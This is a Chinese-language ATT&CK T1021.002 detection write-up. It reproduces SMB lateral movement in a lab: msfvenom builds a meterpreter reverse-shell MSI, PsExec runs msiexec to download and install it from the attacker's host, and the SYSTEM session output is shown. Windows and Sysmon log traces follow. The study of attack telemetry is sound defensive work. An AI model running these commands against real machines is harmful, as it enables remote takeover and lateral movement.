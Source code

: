 # T1021-002-Win-基于白名单PsExec执行payload

## 来自ATT&CK的描述

攻击者可以使用服务器帐户阻止（SMB）使用有效帐户与远程网络共享进行交互。然后，攻击者可以以登录用户的身份执行操作。

SMB是同一网络或域上Windows计算机的文件，打印机和串行端口共享协议。攻击者可以使用SMB与文件共享进行交互，从而允许他们在整个网络中横向移动。SMB的Linux和macOS实现通常使用Samba。

Windows系统具有隐藏的网络共享，只有管理员才能访问它们，并提供了远程文件复制和其他管理功能。例如网络共享包括C$，ADMIN$，和IPC$。攻击者可以将此技术与管理员级别的有效帐户结合使用，以通过SMB远程访问网络系统；使用远程过程调用（RPC）与系统进行交互；传输文件；以及通过远程执行来运行传输的二进制文件。依赖于SMB/RPC上经过身份验证的会话的示例执行技术为计划任务/作业，服务执行和Windows管理规范。攻击者还可以使用NTLM哈希访问具有散列，特定配置和补丁程序级别的系统上的管理员共享。

## 测试案例

微软于2006年7月收购sysinternals公司，PsExec是SysinternalsSuite的小工具之一，是一种轻量级的telnet替代品，允许在其他系统上执行进程，完成控制台应用程序的完全交互，而无需手动安装客户端软件，并且可以获得与控制台应用程序相当的完全交互性。

微软官方文档：

<https://docs.microsoft.com/zh-cn/sysinternals/downloads/psexec>

说明：PsExec.exe没有默认安装在windows系统。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

Windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7（sysmon日志）

### 攻击分析

#### 配置MSF

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > exploit
```

#### 生成payload

```bash
msfvenom -a  x86 --platform windows -p  windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=4444 -f msi > shellcode.msi
```

#### 靶机执行

注意：需要管理员权限

```dos
PsExec.exe -d -s msiexec.exe /q /i http://192.168.126.146/shellcode.msi
```

#### 反弹shell

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:4444
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 1 opened (192.168.126.146:4444 -> 192.168.126.149:49371) at 2020-04-18 23:09:44 +0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getpid
Current pid: 2352
```

## 测试留痕

```log
windows 安全日志
EventID： 4688
进程信息:
新进程 ID: 0xe84
新进程名: C:\Users\12306Br0\Desktop\PSTools\PsExec.exe

EventID： 4688
进程信息:
新进程 ID: 0xfcc
新进程名: C:\Windows\PSEXESVC.exe

EVentID：5140
网络信息:
对象类型: File
源地址: fe80::719e:d312:648f:4884
源端口: 49369
共享信息:
共享名: \\*\IPC$

EventID：5145
网络信息:
对象类型: File
源地址: fe80::719e:d312:648f:4884
源端口: 49369

共享信息:
共享名称: \\*\IPC$
共享路径:
相对目标名称: PSEXESVC

SYSMON日志
EventID：1
Process Create:
RuleName:
UtcTime: 2020-04-18 15:09:29.237
ProcessGuid: {bb1f7c32-1829-5e9b-0000-00107a844001}
ProcessId: 3716
Image: C:\Users\12306Br0\Desktop\PSTools\PsExec.exe
FileVersion: 2.2
Description: Execute processes remotely
Product: Sysinternals PsExec
Company: Sysinternals - www.sysinternals.com
OriginalFileName: psexec.c
CommandLine: PsExec.exe  -d -s msiexec.exe /q /i http://192.168.126.146/shellcode.msi
CurrentDirectory: C:\Users\12306Br0\Desktop\PSTools\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-5fc3-5e99-0000-0020eae10600}
LogonId: 0x6e1ea
TerminalSessionId: 1
IntegrityLevel: High
Hashes: SHA1=E50D9E3BD91908E13A26B3E23EDEAF577FB3A095
ParentProcessGuid: {bb1f7c32-1806-5e9b-0000-001070474001}
ParentProcessId: 3492
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\System32\cmd.exe"

EventID：1
Process Create:
RuleName:
UtcTime: 2020-04-18 15:09:29.284
ProcessGuid: {bb1f7c32-1829-5e9b-0000-00108c864001}
ProcessId: 4044
Image: C:\Windows\PSEXESVC.exe
FileVersion: 2.2
Description: PsExec Service
Product: Sysinternals PsExec
Company: Sysinternals
OriginalFileName: psexesvc.exe
CommandLine: C:\Windows\PSEXESVC.exe
CurrentDirectory: C:\Windows\system32\
User: NT AUTHORITY\SYSTEM
LogonGuid: {bb1f7c32-a6a0-5e60-0000-0020e7030000}
LogonId: 0x3e7
TerminalSessionId: 0
IntegrityLevel: System
Hashes: SHA1=A17C21B909C56D93D978014E63FB06926EAEA8E7
ParentProcessGuid: {bb1f7c32-a6a0-5e60-0000-001025ae0000}
ParentProcessId: 496
ParentImage: C:\Windows\System32\services.exe
ParentCommandLine: C:\Windows\system32\services.exe

EventID：1
Process Create:
RuleName:
UtcTime: 2020-04-18 15:09:29.440
ProcessGuid: {bb1f7c32-1829-5e9b-0000-00103c894001}
ProcessId: 1916
Image: C:\Windows\System32\msiexec.exe
FileVersion: 5.0.7601.17514 (win7sp1_rtm.101119-1850)
Description: Windows® installer
Product: Windows Installer - Unicode
Company: Microsoft Corporation
OriginalFileName: msiexec.exe
CommandLine: "msiexec.exe" /q /i http://192.168.126.146/shellcode.msi
CurrentDirectory: C:\Windows\system32\
User: NT AUTHORITY\SYSTEM
LogonGuid: {bb1f7c32-a6a0-5e60-0000-0020e7030000}
LogonId: 0x3e7
TerminalSessionId: 0
IntegrityLevel: System
Hashes: SHA1=443AAC22D57EDD4EF893E2A245B356CBA5B2C2DD
ParentProcessGuid: {bb1f7c32-1829-5e9b-0000-00108c864001}
ParentProcessId: 4044
ParentImage: C:\Windows\PSEXESVC.exe
ParentCommandLine: C:\Windows\PSEXESVC.exe
```

由于sysmon配置问题，只对进程创建行为进行监控

## 检测规则/思路

无具体检测规则，可根据PsExec特征进行检测。

## 参考推荐

MITRE-ATT&CK-T1021-002

<https://attack.mitre.org/techniques/T1021/002/>

基于白名单PsExec执行payload

<https://blog.csdn.net/ws13129/article/details/89879771>
